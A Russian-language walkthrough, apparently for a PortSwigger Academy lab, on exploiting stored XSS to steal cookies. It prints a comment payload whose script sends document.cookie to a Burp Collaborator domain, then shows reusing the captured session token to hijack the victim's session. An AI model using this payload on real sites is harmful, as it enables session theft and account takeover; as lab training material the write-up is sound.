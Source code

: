 Перейдем на уязвимый ресурс и зайдем на любую из доступных веток форума

Для решения данной лабораторной работы необходима помощь `Collaborator`'a
Нажмем `Copy to clickboard `
и в буфер обмена запишется DGA домен
```
c1ep40b68akl6ujii1z734lec5iw6mub.oastify.com
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/23.%20Exploiting%20cross-site%20scripting%20to%20steal%20cookies/pics%20for%20walkthrough/1.png)
и в поле ввода комментария введем наш DGA домен, который мы получили на предыдущем шаге
```
<script>
fetch('https://c1ep40b68akl6ujii1z734lec5iw6mub.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
и отправим данный запрос
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/23.%20Exploiting%20cross-site%20scripting%20to%20steal%20cookies/pics%20for%20walkthrough/2.png)
Увидим отстук на burp collaborator, который мы получили, где указана сессия пользователя, который открыл содержимое - `QHPn1xLL9upvAPI2wvneD7G52D40Z3oy`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/23.%20Exploiting%20cross-site%20scripting%20to%20steal%20cookies/pics%20for%20walkthrough/3.png)
Далее перейдем в режиме `Proxy` -> `Intercept` 
и изменим сессию, которая отправляется вместе с запросом
и получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/23.%20Exploiting%20cross-site%20scripting%20to%20steal%20cookies/pics%20for%20walkthrough/4.png)
